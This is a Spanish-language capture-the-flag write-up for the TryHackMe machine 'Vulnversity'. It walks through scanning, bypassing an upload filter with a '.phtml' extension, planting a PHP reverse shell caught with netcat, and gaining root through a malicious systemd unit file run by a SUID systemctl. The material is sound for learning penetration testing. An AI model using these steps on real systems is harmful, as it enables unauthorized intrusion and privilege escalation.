






# Vulnversity

{: width="250" }

**Plataforma:** `TryHackMe`

**Sistema Operativo:** `Linux`

**Dificultad:** `Easy`

**IP:** `10.10.225.1`  

**Autor writeup:** `juanma-cc`

**Perfil de TryHackMe:** [juanmacc](https://tryhackme.com/p/juanmacc)

**Fecha:** `25-05-2025`

[<iframe src="https://tryhackme.com/api/v2/badges/public-profile?userPublicId=4616237" style='border:none;' frameborder=0 width="350" height="100"></iframe>] string[]

---

## 📖 Resumen rápido

```txt
Esta máquina se explota mediante una vulnerabilidad de subida de archivos mal configurada 
en una página web interna, permitiendo la ejecución remota de código a través de una reverse shell. 
La escalada de privilegios se logra aprovechando un binario con permisos SUID para obtener acceso root.
```

---

## 🔍 Enumeración

- Comenzamos la enumeración de la máquina con `nmap`

```shell
nmap -sC -sV -p- 10.10.225.1
```

```shell
Host is up, received conn-refused (0.049s latency).
Scanned at 2025-05-25 21:55:35 CEST for 23s
Not shown: 994 closed tcp ports (conn-refused)
PORT     STATE SERVICE     REASON  VERSION
21/tcp   open  ftp         syn-ack vsftpd 3.0.3
22/tcp   open  ssh         syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
139/tcp  open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3128/tcp open  http-proxy  syn-ack Squid http proxy 3.5.12
3333/tcp open  http        syn-ack Apache httpd 2.4.18 ((Ubuntu))
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

✅ El puerto más interesante es el `3333`, donde corre un servidor web Apache.

### Descubrimiento Web

Accedemos al sitio web en:

`http://10.10.225.1:3333`

No encontramos contenido relevante directamente, por lo que procedemos a enumerar directorios ocultos.

### Enumeración de subdominios

Utilizaremos **gobuster** para descubrir nuevos subdominios.  

```bash
gobuster dir -u http://10.10.225.1:3333 -w /ruta/wordlist.txt
```



Tras el escaneo, vemos un subdominio interesante: **internal**
Al acceder nos encontramos con esta página, que nos permite subir archivos.  



---

## 💥 Explotación

Al intentar subir cualquier archivo, por ejemplo en .php nos encontramos que salta un error.  

⛔ `[ERROR]` ⛔
    No acepta archivos con extensión **.php**
⛔ `[ERROR]` ⛔

Para ver que tipo de archivos acepta, podemos crear una wordlist con extensiones comunes de **.php** como por ejemplo:

- .php
- .php3
- .php4
- .php5
- .phtml

ℹ️ `También podemos utilizar una wordlist con diferentes extensiones.`

Capturamos el intento de subida de archivo con el proxu de Burpsuite y lo mandamos a intruder.  
En `filename="test.php"` , modificamos el `.php` presionando el botón de "Add &".
Esto hará que modifique la extensión con nuestro payload.  



Solo nos queda observar las diferentes requests para ver la respuesta.  
Si filtramos por `Success` vemos que una petición ha llegado correctamente.

👌👌👌 Lo tenemos! 👌👌👌

Admite extensiones `.phtml`



Subimos una reverse shell en .php pero modificando la extensión a `.phtml`

`ℹ️ Nuestra querida reverse de PentestMonkey es suficiente 😈`

Escuchamos con `nc -lvnp 4444`



Ejecutamos la reverse shell a través de la siguiente dirección:

`http://10.10.225.1:3333/internal/uploads/reverse.phtml`

Ya podemos movernos libremente para encontrar al user 😏
Vamos a `/home/` y ya tendremos  la flag de user  



---

## 🦸 Escalada de Privilegios

Buscamos todos los archivos con permisos `SUID`

```shell
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

Tras revisar la lista y buscar algo de información, este es el análisis y la explicación:

### 🔍 ¿Qué es un binario SUID?

Un binario con el **bit SUID activado** se ejecuta **con los privilegios del dueño del archivo** , normalmente **root** , aunque lo ejecute un usuario normal.

Esto puede ser peligroso si:

- El binario permite ejecutar comandos o leer/abrir archivos arbitrarios.
- Se puede explotar para elevar privilegios.

Lista de archivos interesantes que nos encontramos:

- /bin/su
- /bin/ntfs-3g
- /bin/mount
- /bin/ping6
- /bin/umount
- /bin/systemctl
- /bin/ping
- /bin/fusermount
- /sbin/mount.cifs

### ✅ Binarios comunes y seguros (NO VULNERABLES)

| Ruta                       | Descripción                      | ¿Peligroso?                                                    |
| -------------------------- | -------------------------------- | -------------------------------------------------------------- |
| `/bin/su`                  | Cambio de usuario                | No. Es seguro, no hay exploits conocidos.                      |
| `/bin/ping`y`/bin/ping6`   | Herramienta de red               | No. Necesita SUID para funcionar, pero no permite explotación. |
| `/bin/mount`y`/bin/umount` | Montar/desmontar dispositivos    | Requiere configuración específica, difícil de explotar.        |
| `/bin/fusermount`          | Usado por FUSE                   | Seguro en entornos normales.                                   |
| `/sbin/mount.cifs`         | Montar sistemas de archivos CIFS | Similar a mount, no explotable fácilmente.                     |
|----------------------------|----------------------------------|----------------------------------------------------------------|

### ⚠️ Potencialmente vulnerable

#### 🤯 `/bin/systemctl`

Este **sí es interesante** y muy común encontrarlo en máquinas de TryHackMe/CyberSec labs.

- `systemctl` es una herramienta que **controla el sistema init** (`systemd`) y **requiere privilegios root** .
- Si puedes ejecutar `systemctl` con SUID, puedes **intentar crear un servicio malicioso** y ejecutarlo como root.

Con lo cual, podemos crear un servicio falso para habilitarlo y obtener una shell de root.  

## 🧠 ¿Cómo explotar `/bin/systemctl` con SUID?

Si puedes ejecutar `systemctl` como root sin ser root, podrías crear un servicio que lance una shell o te dé acceso root.

### Pasos básicos

1. **Crear un servicio malicioso** en tu directorio temporal:

```shell
cd /tmp
cat > rootshell.service << EOF
[Service]
Type=oneshot
ExecStart=/bin/sh -c "cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash"
EOF
```

2.**Ejecutar el servicio con systemctl (como root)** :

```bash
/bin/systemctl link /tmp/rootshell.service
/bin/systemctl start /tmp/rootshell.service
```

3.**Ejecutar la bash con privilegios SUID** :

```bash
/tmp/rootbash -p
```

Al ingresar el comando, obtenemos una shell de *root*.  
Solo falta navegar al directorio para encontrar la flag en `root.txt`

---

## 🎯 Conclusión

La máquina **Vulnversity** es una excelente introducción a:

- Enumeración web básica
- ByPass de filtros de subida de archivos
- Uso de SUID para escalada de privilegios

<!-- markdownlint-configure-file {
  "no-inline-html": {
    "allowed_elements": [
      "iframe"
    ]
  }
} -->
